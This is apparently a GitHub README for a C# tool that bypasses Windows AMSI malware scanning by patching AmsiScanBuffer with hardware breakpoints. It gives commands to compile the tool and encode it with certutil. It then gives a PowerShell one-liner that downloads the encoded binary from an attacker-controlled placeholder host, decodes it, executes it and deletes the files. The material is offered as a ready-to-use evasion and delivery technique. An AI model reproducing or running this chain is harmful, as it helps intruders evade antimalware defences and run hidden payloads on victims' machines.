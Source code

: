 # Overview 

## This repo contains a C# implementation to patch AmsiScanBuffer utilizing hardware breakpoints. I used this code as a reference but optimized it and added comments for the code, https://gist.github.com/susMdT/360c64c842583f8732cc1c98a60bfd9e.

```
## How to compile
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:test.exe .\am_s.cs
```

## Encode the binary into a text file 
```powershell
certutil -encode test.exe test.txt
```
## Execute the binary using Microsoft signed binaries
```powershell
Start-Process -FilePath curl -ArgumentList "http://<IP>/test.txt -o $($pwd.Path)\test.txt" -Wait; certutil -decode "$($pwd.Path)\test.txt" "$($pwd.Path)\test.exe"; Start-Process -FilePath "$($pwd.Path)\test.exe" -Wait; Remove-Item -Path "$($pwd.Path)\test.exe"; Remove-Item -Path "$($pwd.Path)\test.txt"
```
